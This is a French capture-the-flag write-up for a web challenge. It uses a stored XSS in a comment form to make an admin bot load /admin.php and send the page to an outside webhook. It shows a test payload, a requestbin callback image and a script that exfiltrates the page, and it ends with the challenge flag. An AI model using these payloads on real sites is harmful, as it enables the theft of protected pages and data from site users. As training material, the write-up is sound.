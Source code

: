 Solution:

Sur le site on nous dit qu'on ne peut pas accéder à /admin.php

On a aussi un formulaire de contact et des commentaires.
On pense naturellement à une XSS
On teste donc si la XSS est avérée:

```html
<script>alert(1);</script>
```

La page refresh au bout de 5 secondes, et bingo le script s'est exécuté.

On regarde maintenant si un robot lit les messages que l'on envoie:

```html
<script>
    document.write('<img src="http://requestbin.net/r/yvnpmcyv"/>')
</script>
```

On reçoit une requête du robot comme prévu:

Nous allons maintenant récupérer la page admin.php grâce au robot.

```html
<script>
    //on récupère la page
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/admin.php', false);
    xhr.send();

    var page = xhr.responseText;

    //et on envoie le contenu de la page dans un post
    xhr.open('POST', 'https://webhook.site/3c38f9b5-9979-485e-8999-ff4174c5b87f', false);
    xhr.send(page);
</script>
```

Et on reçoit le flag sur webhook :)

Hero{b3_c4r3ful_w1th_xss_!!}
